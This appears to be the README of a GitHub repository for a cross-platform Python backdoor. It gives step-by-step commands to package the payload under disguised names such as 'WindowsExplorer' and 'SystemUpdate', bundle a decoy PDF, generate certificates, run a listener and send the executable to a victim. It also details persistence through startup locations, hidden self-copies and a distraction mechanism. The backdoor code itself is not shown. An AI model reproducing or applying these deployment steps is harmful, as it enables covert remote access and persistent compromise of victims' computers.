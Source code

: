 # ⚠️ | This Backdoor dosen't bypass windows defender and other AV's completely

## Note :
Unobfuscated backdoor will be detected and quarintined by defender

## Requirements for this to work :
### Attacker's side :
1. Python installed with required packages 
2. Pyinstaller installed
3. Update ur current IP address in [Pastebin.com](https://pastebin.com)
4. If target is windows then package it in windows itself

### Victim's side :
1. Dosen't matter if he has python or not
2. Any OS is fine

## Steps to use this backdoor :
1. ### clone this repo :
    ```zsh
   git clone https://github.com/Anonomous69/Backdoor
   ```

   cd to that directory (also dont forget to change the [Pastebin.com](https://pastebin.com) URL)

2. ### find your pyinstaller path and run :
#### For windows :
    ```powershell
    C:\Users\wherever\your\path\is\pyinstaller.exe --onefile --noconsole --name "WindowsExplorer" --icon="icon.ico" --add-data "sample.pdf;." backdoor.py
    ```
  
#### For MacOS :
    ```zsh
    /Users/path/to/pyinstaller --onefile --windowed --name "SystemUpdate" --icon="icon.icns" --add-data "sample.pdf:." backdoor.py
    ```

#### For Linux :
    ```bash
    pyinstaller --onefile --noconsole --name "sysupdate" --icon="icon.png" --add-data "sample.pdf:." backdoor.py
    ```

   If ran successfully the created executable will be in your newly created "Dist" directory

 5. ### Generate cerificates for SSL encryption (Do this in same directory as listener.py) :
    ```bash
    openssl req -new -x509 -days 365 -nodes -out cert.pem -keyout key.pem
    ```

4. ### Run Listener is your machine and send the backdoor to target
   ```zsh
   python listeenr.py
   ```
 when target clicks backdoor, you get the connection
 

# Working of this backdoor 

### 🧷 1. **Persistence Setup**
The backdoor first **adds itself to system startup locations** to maintain persistence:

- **Windows:**  
  `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`

- **Linux:**  
  `~/.config/autostart`

- **macOS:**  
  `~/Library/LaunchAgents`

---

### 🕵️ 2. **Self-Copy for Stealth**
It then **copies itself to a hidden/system-like location** and re-executes from there:

- **Windows:**  
  `%TEMP%\WindowsExplorer.exe`

- **Linux:**  
  `~/.local/.sysupdate`

- **macOS:**  
  `~/Library/Application Support/.sysupdate`

---

### 📰 3. **Distraction Mechanism**
To **distract the victim**, it opens a decoy PDF file after execution.
